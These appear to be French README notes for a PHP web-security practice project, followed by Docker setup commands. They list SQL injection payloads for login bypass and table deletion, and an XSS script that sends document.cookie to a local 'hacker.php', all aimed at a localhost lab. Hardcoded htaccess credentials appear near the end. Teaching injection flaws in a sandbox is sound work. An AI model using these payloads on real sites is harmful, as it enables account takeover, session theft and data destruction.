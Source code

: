 sql injection 
un nom d'utilisateur malveillant tel que 
admin' OR '1'='1  et un mot de passe ' OR '1'='1


Si on veut supprimer une table on peut mettre :
 ';Drop table posts ;--
-------------------------
xss
<script>window.location =
'http://localhost/php-security/xss/hacker.php?cookie='+escape(document.cookie)</script>



sql injection 
un nom d'utilisateur malveillant tel que 
admin' OR '1'='1  et un mot de passe ' OR '1'='1.


Si on veut supprimer une table on peut mettre :
 ';Drop table posts ;--
-------------------------
xss
<script>window.location =
'http://localhost:81/xss/hacker.php?cookie='+escape(document.cookie)</script>


------------------------------------------------
#clonner le projet
git clone https://github.com/achrafnh/php-secu.git
cd php-secu

#lancer le projet
docker-compose up -d 

#verivier que les containers snt creer 

docker ps 

#acceder a mysql en CLI 

docker exec -it mysql bash 

# pour se connecter la base le user et le password et sur .env  
mysql -u root -p
show databses;
use dbtest;
show tables;



pour arrete le projet 

docker-compose down

#ou cas ou le projet et deja cloner 
git pull


#htacces htpasswd
admin 
admin123



=============================Docker======================


docker build . -t node-application
docker tag node-application hrefnhaila/node-application:1.1.2
docker push  hrefnhaila/node-application:1.1.2

